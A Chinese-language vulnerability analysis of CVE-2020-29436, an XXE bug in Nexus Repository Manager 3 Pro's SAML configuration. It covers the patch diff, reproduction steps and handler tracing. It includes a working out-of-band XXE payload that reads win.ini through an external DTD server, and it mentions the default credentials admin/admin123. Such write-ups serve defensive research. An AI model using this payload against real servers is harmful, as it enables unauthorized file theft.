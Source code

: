# Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)

**作者：r00t4dm@Cloud-Penetrating Arrow Lab & Longofo@知道创宇404实验室**  
**时间：2020年12月16日**

最近Nexus Repository Manager3[安全公告](https://support.sonatype.com/hc/en-us/sections/203012668-Security-Advisories)更新了一个XXE漏洞，虽然需要管理权限才能利用，并且Nexus Repository Manager3在较高的版本中也会强制更改以前较低版本使用的默认密码`admin/admin123`，最后漏洞触发也很简单，但是过程还是挺有意思，并且不会受到jdk高版本导致不能带换行的问题，列目录、读文件可以带出任意字符，除了二进制文件外，没有找到能编码的协议。

## 补丁

[diff](https://github.com/sonatype/nexus-public/compare/release-3.28.1-01...release-3.29.0-02)下最高漏洞版本3.28.1-01和修复版本3.29.0-02：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-e2be1ea0ca7a5049167e98454f591e8d_b.jpg)

可以看到在一个SafeXml#configureValidator中做了限制加载外部dtd的操作，可以注意到这个configureValidator是新增的方法而不是在原方法中修复，但是只是个工具类。

## 漏洞复现

来到后台Saml的功能点：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-f331f8dd3e51ad798740576e028eea85_b.jpg)

看到这个大大的XML输入框就知道大概率是有XML操作的。

简单测试下能不能进行dtd请求，如果能的话很可能读取文件也可以：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-0e7cdf9f0de38cf1d590babc28dff691_b.jpg)

点击保存就能看到进行了请求。测试了下读文件，可以利用ftp、http等协议带出单行文件，看了下jdk版本在windows是使用的自带的8u252，@r00t4dm在mac上的安装包不会自带jdk，使用的是系统的，那么linux下也是系统的，所以试用的是较低版本的jdk，是可以带换行的。后面看了下返回包，居然把异常返回到了json，那么我们可以通过报错xml将任何文本字符带出了，包括`\n`、`#`、`<`等文本字符。

payload:

```xml
<?xml version="1.0" encoding="utf-8"?> <!DOCTYPE ANY \[ <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini"> <!ENTITY % dtd SYSTEM "[http://127.0.0.1:8000/my.dtd](https://link.zhihu.com/?target=http%3A//127.0.0.1%3A8000/my.dtd)"> %dtd; %send; \]> <ANY>xxe</ANY> dtd： <!ENTITY % all "<!ENTITY % send SYSTEM '%file;'>" > %all;
```

看下效果：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-98103421b633770daaf419bf9c9cbcfa_b.jpg)

其他带`#`、`<`等字符的文件也都可以。

## 漏洞分析

既然configureValidator是新增的方法，而且是一个static方法，那么在最新版本中大概率就有其他类调用这个方法了来修复了。在github开源的3.29.0-02代码中搜索configureValidator，没有搜到任何结果，这个地方就很奇怪了，难道是动态隐式调用？但是前面configureValidator是一个新增的方法并且是一个静态方法，感觉不太可能动态隐式调用。因为之前也弄过Nexus的漏洞，他的安装包lib中有许多代码没有在github那个开源的仓库中，所以就反编译了3.29.0-02版本所有的lib包，一搜索configureValidator，果然有调用而且就此一处：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-1d34419cfa044f377622bd716ad9c135_b.png)


接着又往上搜SamlMetadataTool的调用，都是带有Saml字眼的相关类在调用。所以猜想会有个Saml的功能，去[官方文档](https://help.sonatype.com/repomanager3/system-configuration/user-authentication/saml)搜索下：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-a1302cc05678b0f4872281a7aa1220a6_b.jpg)

看到这个描述是不是有点激动呢？猜测就是这个位置了。按照描述去后台配置点，发现并不能使用这个SAML功能，再看文档说的式要Pro版本才能用这个功能，可以去官网[申请试用](https://www.sonatype.com/nexus/repository-pro)。

从上面的发包可以看到处理url为`/service/rest/internal/ui/saml`，在github开源部分的代码中依然是搜不到的，在反编译的代码中搜索`/ui/saml`可以找到处理类:

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-de73d543d073c1c79ca51deffa4c682b_b.png)

下面是调用栈：

![](./resource/Nexus Repository Manager3 ProXXE分析(CVE-2020-29436)/media/v2-02d0193c7e806f8800e61069781da8f5_b.jpg)

前面调用栈太长就不copy出来了。

## 参考

> https://zhuanlan.zhihu.com/p/337649864